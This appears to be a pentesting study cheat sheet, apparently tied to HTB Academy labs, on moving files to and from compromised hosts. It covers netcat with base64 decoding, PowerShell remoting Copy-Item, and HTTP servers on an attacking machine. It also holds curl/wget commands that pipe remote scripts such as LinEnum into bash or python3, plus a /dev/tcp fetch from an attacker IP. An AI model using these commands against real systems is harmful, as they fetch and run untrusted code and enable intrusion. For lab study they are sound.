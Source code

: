 - `nc -lvnp 8000` We catch the base64 data with Netcat
- `echo <base64> | base64 -d -w 0 > hosts` We use the base64 application with the decode option to convert the string to the file

## PowerShell Session File Transfer

- [Powershell remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)

> To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the Remote Management Users group, or have explicit permissions for PowerShell Remoting in the session configuration

### Example from HTB Academy

- `Test-NetConnection -ComputerName DATABASE01 -Port 5985` From DC01 - Confirm WinRM port TCP 5985 is Open on database01

> Because this session already has privileges over DATABASE01, we don't need to specify credentials. In the example below, a session is created to the remote computer named DATABASE01 and stores the results in the variable named $Session.

- `$Session = New-PSSession -ComputerName DATABASE01` Create a PowerShell Remoting Session to DATABASE01
- `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\` Copy samplefile.txt from our Localhost to the DATABASE01 Session
- `Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session` Copy DATABASE.txt from DATABASE01 Session to our localhost

## HTTP/S

### From attack machine to Target

#### Attacking machine

- In kali we can use python `python3 -m http.server 80` or `python2.7 -m SimpleHTTPServer` if python2
- `php -S 0.0.0.0:8000` with php
- `ruby -run -ehttpd . -p8000` with ruby

#### Target machine

- On a win target machine you can access it directly with the browser: `http://IP-ATTACKING-MACHINE/FILE-TO-GET` or you can use certutil.exe `certutil.exe -urlcache http://IP-ATTACKING-MACHINE/FILE-TO-GET file-to-get`
- In a linux target machine you can use `wget http://IP-ATTACKING-MACHINE/FILE-TO-GET` or curl `curl -o FILE-TO-GET http://IP-ATTACKING-MACHINE/FILE-TO-GET`
- If you want to execute the file but not download it on a linux taget `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash` or `wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`
- With /dev/tcp
  - `exec 3<>/dev/tcp/10.10.10.32/80` connect to the web server
  - `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3` get the file with an http get request
  - print the resposne `cat <&3`
